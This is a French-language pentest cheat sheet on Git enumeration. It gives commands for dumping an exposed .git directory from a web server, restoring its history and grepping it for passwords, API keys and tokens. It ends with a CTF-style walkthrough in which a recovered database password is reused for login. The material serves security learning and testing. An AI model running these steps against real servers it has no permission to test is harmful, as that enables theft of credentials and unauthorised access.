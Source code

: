 # GIT ENUMERATION

{% embed url="https://notes.benheater.com/books/web/page/git-dumper?ref=benheater.com" %}

### <mark style="color:red;">🧩 Contexte</mark>

* Les répertoires `.git/` exposés sur un serveur web (souvent oubliés après un déploiement) permettent :
  * De récupérer **tout l’historique de code source**.
  * De découvrir des **mots de passe, clés API, tokens** supprimés mais présents dans l’historique.
  * De révéler des **failles de logique** ou des informations sensibles (ex: routes cachées, secrets de build).

***

### <mark style="color:red;">🔎 Commandes Git utiles en pentest</mark>

#### 1. Récupérer un dépôt `.git`

```bash
# Télécharger avec wget
wget -r -np -R "index.html*" http://target/.git/

# Outil spécialisé
git-dumper http://target/.git/ ./dumped_repo
```

***

#### 2. Réinitialiser l’arborescence pour naviguer

```bash
cd dumped_repo
git reset --hard
```

***

#### 3. Visualiser l’historique complet

```bash
git log --stat --all
```

* `--stat` → montre les fichiers modifiés/supprimés.
* `--all` → inclut toutes les branches et commits, même orphelins.

Exemple sortie :

```
commit 83d2f4b
Author: dev <dev@target>
Date:   Tue Jan 5 14:23:11 2025

 config.php | 2 +-
 1 file changed, 1 insertion(+), 1 deletion(-)
```

⚠️ Indice : un mot de passe supprimé peut apparaître ici.

***

#### 4. Explorer les commits en détail

```bash
git show <commit_id>
```

➡️ Montre les changements exacts, souvent secrets supprimés par erreur.

***

#### 5. Parcourir toutes les branches et tags

```bash
git branch -a
git tag -l
```

***

#### 6. Rechercher des secrets dans l’historique

```bash
git log -p | grep -i "password"
git log -p | grep -i "secret"
git log -p | grep -i "api"
```

***

#### 7. Récupérer un fichier à un commit précis

```bash
git checkout <commit_id> -- config.php
```

***

### <mark style="color:red;">🛠 Outils spécialisés pour Git enumeration</mark>

*   [**git-dumper**](https://github.com/arthaud/git-dumper)\
    → Télécharge automatiquement un dépôt `.git` exposé.

    ```bash
    python3 git_dumper.py http://target/.git/ ./target_repo
    ```
* [**git-tools**](https://github.com/internetwache/GitTools)
  * `gitdumper.sh` : dump complet.
  * `extractor.sh` : restaure l’arborescence et commits.
*   [**trufflehog**](https://github.com/trufflesecurity/trufflehog)\
    → Scan des secrets (regex + entropie) dans l’historique Git.

    ```bash
    trufflehog --regex --entropy=False ./target_repo
    ```
* [**gitleaks**](https://github.com/gitleaks/gitleaks)\
  → Alternative moderne à trufflehog pour secrets dans git.

***

### <mark style="color:red;">📂 Exemple d’exploitation en CTF</mark>

#### Étape 1 – Découverte

```bash
gobuster dir -u http://target/ -w /usr/share/wordlists/dirb/common.txt
```

→ Détection de `.git/`.

#### Étape 2 – Dump du repo

```bash
git-dumper http://target/.git/ ./repo
cd repo && git reset --hard
```

#### Étape 3 – Recherche d’indices

```bash
git log --stat --all
git show <commit_id>
grep -r "password" .
```

#### Étape 4 – Secret trouvé

Exemple :

```php
$db_pass = "Sup3rS3cr3tP@ss!";
```

➡️ Utilisation pour login DB / SSH / Web.

***
